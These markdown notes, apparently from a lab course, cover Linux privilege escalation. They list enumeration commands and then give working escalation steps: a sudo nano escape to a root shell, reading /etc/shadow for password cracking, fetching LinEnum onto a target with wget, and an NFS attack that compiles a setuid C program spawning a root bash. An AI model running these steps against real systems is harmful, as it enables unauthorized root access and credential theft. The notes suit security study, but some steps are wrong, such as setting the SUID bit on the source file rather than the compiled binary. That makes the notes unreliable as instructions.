 # Privilage Escalation

the `hostname` command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string

`uname -a` print system information giving us additional detail about the kernel used by the system.

`/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

the `/etc/issue` file. This file usually contains some information about the operating system but can easily be customized or changes.

The output of the `ps` (Process Status) will show the following:

* **PID:** The process ID (unique to the process)
* **TTY:** Terminal type used by the user
* **Time:** Amount of CPU time used by the process (this is NOT the time this process has been running for)
* **CMD:** The command or executable running (will NOT display any command line parameter)

`ps -A` View all running processes `ps axjf` View process tree `ps aux`

* The aux option will show processes for all users (a)
* Display the user that launched the process (u)
* Show processes that are not attached to a terminal (x)

The `env` command will show environmental variables.

The `sudo -l` command can be used to list all commands your user can run using `sudo`.

The `id` command will provide a general overview of the user’s privilege level and group memberships.

`/etc/passwd` file can be an easy way to discover users on the system.

The `ip route` command to see which network routes exist.

#### Netstat comman

The `netstat` command can be used to gather information on existing connections:

`netstat -a` shows all listening ports and established connections.

`netstat -at` or `netstat -au` can be used to list TCP or UDP protocols respectively.

`netstat -l` list ports in “listening” mode.

* These ports are open and ready to accept incoming connections.
* This can be used with the “t” option to list only ports that are listening using the TCP protocol

`netstat -s` list network usage statistics by protocol

* This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.

`netstat -tp` list connections with the service name and PID information.

`netstat -i` Shows interface statistics.

`netstat -ano` which could be broken down as follows:

* `-a` Display all sockets
* `-n` Do not resolve names
* `-o` Display timers

#### find Command

`find . -name flag1.txt` find the file named “flag1.txt” in the current directory

`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory

`find / -type d -name config` find the directory named config under “/”

`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executable by all users)

`find / -perm a=x` find executable files

`find /home -user frank` find all files for user “frank” under “/home”

`find / -mtime 10` find files that were modified in the last 10 days

`find / -atime 10` find files that were accessed in the last 10 day

`find / -cmin -60` find files changed within the last hour (60 minutes)

`find / -amin -60` find files accesses within the last hour (60 minutes)

`find / -size 50M` find files with a 50 MB size

* This command can also be used with `(+)` and `(-)` signs to specify a file that is larger or smaller than the given size.

**Find world-writeable folders:**

* `find / -writable -type d 2>/dev/null`
* `find / -perm -222 -type d 2>/dev/null`
* `find / -perm -o w -type d 2>/dev/null`

**Find world-executable folders:**

* `find / -perm -o x -type d 2>/dev/null`

**Find development tools and supported languages:**

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`

`find / -perm -u=s -type f 2>/dev/null` Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

### Automated Enumeration Tools

* **LinPeas:** https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
* **LinEnum:** https://github.com/rebootuser/LinEnum
  * https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
* **LES (Linux Exploit Suggester):** https://github.com/mzet-/linux-exploit-suggester
* **Linux Smart Enumeration:** https://github.com/diego-treitos/linux-smart-enumeration
* **Linux Priv Checker:** https://github.com/linted/linuxprivchecker

#### LinEnum get on the target machine

* Go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using `python3 -m http.server 8000` .
* Then using `wget` on the target machine, and your local IP, you can grab the file from your local machine.
* Then make the file executable using the command `chmod +x FILENAME.sh`.

## Privilege Escalation - sudo

* Run `sudo nano` and press CTRL+R and CTRL+X.
* Enter the following command to gain root access: `reset; bash 1>&0 2>&0` and press Enter.

## Privilege Escalation SUID (Set-user Identification)

* **SUID (Set-user Identification)** The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege.
* `find / -type f -perm -04000 -ls 2>/dev/null`
* `nano /etc/shadow` will print the contents of the `/etc/shadow` file.
* `unshadow passwd.txt shadow.txt > passwords.txt`

`base64 /etc/passwd | base64 --decode`

* **SGID (Set-group Identification**

## Privilege Escalation Capabilities

The capabilities man page provides detailed information on its usage and options.

`getcap -r / 2>/dev/null`

When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to `/dev/null`.

## Privilege Escalation Cron Jobs

Cron jobs are used to run scripts or binaries at specific times

`cat /etc/crontab`

`locate antivirus.sh`

## Privilege Escalation Path

A simple search for writable folders can done using the `find / -writable 2>/dev/null` The output of this command can be cleaned using a simple cut and sort sequence. `find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`

## Privilege Escalation NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

Target computer:

* `showmount -e 10.10.2.12`
* `mount -o rw 10.10.2.12:/home/ubuntu/sharedfolder /folder`
* create code.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	return 0;
}
```

* `gcc code.c -o code -w`
* `chmod +s code.c`
